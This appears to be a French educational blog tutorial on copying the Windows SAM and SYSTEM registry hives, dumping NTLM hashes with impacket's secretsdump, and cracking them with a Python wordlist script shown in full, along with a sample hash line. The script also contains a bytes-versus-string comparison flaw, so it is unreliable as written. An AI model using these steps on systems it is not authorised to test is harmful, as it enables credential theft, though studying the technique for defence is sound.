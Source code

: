 ```yaml
---
title: "[SAM] Dumping des informations d'identification Microsoft"
description: sam.png
tags: ["Dans cet article je vous présente le fonctionnement d'un fichier Security Account Manage (SAM), et de vous montrer comment dump un fichier SAM grâce au fichier SYSTEM sous une machine Windows."]
---
```


![Flower](../sam.png)

Introduction
----
Dans ce cours à but éducatif nous allons voir comment dumper et casser des mots de passe Microsoft grâce au système de fichier `Security Account Manager` (SAM) ou en français `Gestionnaire de compte de sécurité`.

SAM
----
Alors commençons par la base des bases c'est quoi `SAM` concrètement ? <br />

La SAM (Security Account Manager ou gestionnaire des comptes de sécurité) est la base de données des comptes locaux sur Windows Server 2003, Windows XP, Windows 2000. C'est l'un des composants de la base de registre. Elle contient les mots de passe locaux.

La SAM est stockée physiquement dans le fichier `%SystemRoot%\system32\Config\SAM`. C'est un fichier de ruche inclus dans `HKEY_LOCAL_MACHINE`, lui-même inclus dans la base de registre. Si vous regardez bien, nous voyons très bien que les clés `SAM` et `SYSTEM` sont dans le registre de Windows.

![Flower](https://image.noelshack.com/fichiers/2019/21/7/1558894108-screenshot-5.png)

Nous allons enregistrer une copie des sous-clés, entrées ou données spécifiées du registre dans un format binaire via la commande `reg`. La commande `reg` est une commande Microsoft et le but du programme est de gérer le registre de Windows (Très utile pour les personnes qui n'aiment pas le GUI).

Une très bonne documentation de `REG` : [REG](https://windows.developpez.com/cours/ligne-commande/?page=page_17)

![Flower](https://image.noelshack.com/fichiers/2019/21/7/1558894619-screenshot-2.png)

Les deux sous-clés `SAM` et `SYSTEM` ont été enregistrer dans la racine de Windows `C:\sam/system`. Nous arrivons dans la phase pour dumper les fichiers dans mon cas je vais faire ça sous Windows mais sous Linux ça peut également très bien fonctionner.

IMPACKET
----
Avant de dump le fichier, on va s'assurer que `impacket` est installer dans notre machine, voici le lien pour l'installer [impacket](https://github.com/SecureAuthCorp/impacket)

Impacket est un ensemble de classes Python permettant de travailler avec des protocoles réseau. Impacket se concentre sur la fourniture d'un accès programmatique de bas niveau aux paquets et à certains protocoles (par exemple, SMB1-3 et MSRPC), la mise en œuvre du protocole elle-même.

Pour l'installation de `impacket` : <br />

![Flower](https://image.noelshack.com/fichiers/2019/21/7/1558905335-screenshot-1.png)

Avant d'utiliser le programme nous allons mettre le dossier `examples` dans la variable d'environnement de l'ordinateur. Pour éviter toujours d'aller vers le dossier qui peut être assez long.

![Flower](https://image.noelshack.com/fichiers/2019/22/1/1558952753-screenshot-1.png)

Concrètement pour utiliser le programme `secretsdump.py` il vous suffit d'utiliser seulement 3 options en particulier, `-sam`, `-system` et enfin pour l'option finale `LOCAL`.

> -sam    : Spécifier le fichier `SAM`. <br />
> -system : Spécifier le fichier `SYSTEM`. <br />
> LOCAL   : Si vous voulez analyser les fichiers locaux.<br />

![Flower](https://image.noelshack.com/fichiers/2019/21/7/1558905838-screenshot-2.png)

Le dumping à fonctionner avec succès donc maintenant nous allons passer au casse du HASH avec john. Il faut avant tout identifier le HASH cela ressemble grandement à du `NT Lan Manager` (NTLM). 

Vous pouvez très bien ne pas identifier le HASH pour casser le HASH ça reste facultatif.. Le programme john va chercher par lui même pour identifier le HASH en question (Avantage par rapport à `hashcat`).

CRACK
----
Aujourd'hui je suis de bonne humeur, j'ai fais un petit script pour vous qui permet casser le HASH rien que pour vous. Il a été développer en Python.

{% highlight python %}
#coding:utf-8

import sys
import hashlib
import binascii

def recover_hash_nt():
	with open(sys.argv[1], "r") as ptr_open:
		ptr_open = ptr_open.readlines()

	username_list = []
	hash_checking = []

	for line_strip in ptr_open:
		'''
			Boucle pour lire le fichier et de
			trouver les valeurs précises dans la fonction __recover_hash_nt__().
		'''
		line_strip = line_strip.strip("\n")
		line_strip = line_strip.split(":")

		username   = line_strip[0]
		hash_check = line_strip[3]

		username_list.append(username)
		hash_checking.append(hash_check)

	with open(sys.argv[2], "r") as ptr_wordlist:
		ptr_wordlist = ptr_wordlist.readlines()

	for ptr_hash in hash_checking:
		ptr_hash = ptr_hash.strip("\n")
		'''
			read the hash in the loop
			__recover_hash_nt()__.
		'''
		for ptr_username in username_list:
			ptr_username = ptr_username.strip("\n")
			'''
				read the username in the loop
				__recover_hash_nt()__.
			'''
			for ptr_list in ptr_wordlist:
				ptr_list = ptr_list.strip("\n")
				'''
					read the wordlist in the loop.
					__recover_hash_nt()__.
				'''
				ptr_ntlm = hashlib.new('md4', ptr_list.encode('utf-16le')).digest()
				if(binascii.hexlify(ptr_ntlm) == ptr_hash):
					print("[+] CRACKED !! : [%s:%s]" %(ptr_username, ptr_list))
					sys.exit(0)

if __name__ == "__main__":
	recover_hash_nt()
  
{% endhighlight %}

Donc pour utiliser le programme c'est pas très compliquer il vous suffit de spécifier la wordlist et le hash à casser en question. N'oubliez pas de mettre les arguments sinon le programme ne fonctionne pas. Si vous souhaitez casser un HASH, vous devez crée un fichier texte, et que vous mettez la ligne des informations sur l'utilisateur.

Par exemple mon fichier hash.log :

	Seyptoo:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::

![Flower](https://image.noelshack.com/fichiers/2019/22/1/1558958656-screenshot-1.png)

Le programme à réussis à casser le HASH en quelques secondes.
